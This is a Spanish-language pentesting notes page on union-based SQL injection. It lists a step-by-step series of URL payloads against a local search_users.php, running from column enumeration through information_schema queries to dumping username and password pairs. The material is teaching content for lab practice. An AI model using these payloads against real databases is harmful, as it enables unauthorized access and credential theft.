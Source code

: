 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

***

#### Inyección SQL basada en uniones

* Determinar cuantas **columnas** hay

**➜** `http://localhost/search_users.php?id=1' ORDER BY 1-- -`

* Ver datos inyectables con **union select** donde el **id** no exista

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT 1-- -`

* Ver base de datos **actualmente** en **uso**:

<figure><img src="../../../.gitbook/assets/mostar-db.PNG" alt=""><figcaption></figcaption></figure>

* Ver **todas** las base de datos

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata-- -`

* Ver **tablas** de una base de datos en **concreto**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'db'-- -`

* Ver **columnas** de una **tabla** en **concreto:**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'users'-- -`

* Ver **datos** de las **columnas** de una **tabla** en **concreto:**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(username,0x3a,password) FROM users-- -`

* Ver **datos** de las **columnas** indicadas de una base de datos sin **uso** actualmente indicando el nombre de la base de datos:

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(username,0x3a,password) FROM db.users-- -`

<figure><img src="../../../.gitbook/assets/dump-credentials.PNG" alt=""><figcaption></figcaption></figure>
